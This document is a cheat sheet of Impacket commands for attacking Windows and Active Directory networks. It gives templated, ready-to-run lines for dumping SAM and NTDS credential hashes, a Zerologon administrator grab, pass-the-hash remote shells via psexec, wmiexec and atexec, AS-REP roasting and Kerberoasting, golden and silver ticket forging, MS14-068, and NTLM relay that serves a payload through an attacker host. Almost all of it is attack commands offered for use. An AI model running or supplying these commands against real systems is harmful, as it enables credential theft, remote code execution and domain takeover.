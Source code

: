 # Impacket

% impacket, windows, smb, 445

## smbclient - connect to smb on the target
```
smbclient.py <domain>/<user>:<password>@<ip>
```

## smbserver - share smb folder
```
impacket-smbserver <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
```
impacket-smbserver -username <username> -password <password> <shareName> <sharePath>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
```
lookupsid.py <domain>/<user>:<password>@<ip>
```

## reg - query registry info remotely
```
reg.py <domain>/<user>:<password>@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

## rpcdump - list rpc endpoint
```
rpcdump.py <domain>/<user>:<password>@<ip>
```

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
```
services.py <domain>/<user>:<password>@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```

## secretsdump
```
secretsdump.py '<domain>/<user>:<pass>'@<ip>
```

## secretsdump local dump hash
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator (zerologon)
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

% impacket, windows, exec

## PSEXEC with username // create a new service (using \pipe\svcctl via SMB)
```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth) // create a new service (using \pipe\svcctl via SMB)
```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos // create a new service (using \pipe\svcctl via SMB)
```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth) - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py -hashes <hash> <user>@<ip> "command"
```

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoast)
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impresionate user
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
```
GetADUSers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
```
impacket-ntlmrelayx -tf <targets_file> -e <payload_file>
```

## ntlmrelay - to use with mitm6 - relay to client
```
ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - relay to target
```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
